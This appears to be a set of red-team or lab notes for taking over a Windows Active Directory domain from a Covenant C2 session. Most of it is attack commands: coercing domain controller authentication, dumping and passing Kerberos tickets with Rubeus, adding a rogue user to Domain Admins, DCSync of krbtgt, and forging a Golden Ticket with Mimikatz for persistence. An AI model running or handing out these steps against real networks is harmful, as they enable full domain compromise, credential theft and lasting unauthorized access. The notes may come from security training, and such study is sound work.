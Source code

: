 ```powershell
shell ms-rprn.exe \\DC01 \\workstation-02
rubeus dump /service:krbtgt
# copy the Base64EncodedTicket from DC01$ 
# take the spaces off

maketoken administrator <domain> <whateverForPassword>

# copy the kerberos ticket
rubeus ptt /ticket:<paste the ticket>

# Output: [+]  Ticket Successfully imported!
```

> This means this session is acting as domain controller, we have full domain rights

POC - Create a user and add him to Domain Admins group:
```powershell
shell net users /domain
shell net user <user3> 'password' /add /domain
shell net group "Domain Admins" <user3> /add /domain
shell net user user3 /domain
```

To dump the full SAM account of krbtgt:
```powershell
dcsync <domain\krbtgt>
```


## Golden TIcket Persistence
workstation-01 Covenant shell:
```powershell
# Upload > C:\users\public\
invoke-mimikatz.ps1
powerview.ps1
```

```powershell
cd C:\users\public
. .\powerview.ps1
get-domainsid
. .\invoke-mimikatz.ps1
Invoke-Mimikatz -Command '"kerberos::golden /user:administrator /domain:<domain> /sid:<get-domainsid output> /krbtgt:<kerberos ticket, maybe its saved in Covenant - Data> /ptt"'
# ptt = pass the ticket

```


At this point we are administrator of the DC - free access:
```powershell
ls \\dc01\c$
net group "domain admins" <user4> /add /domain
```
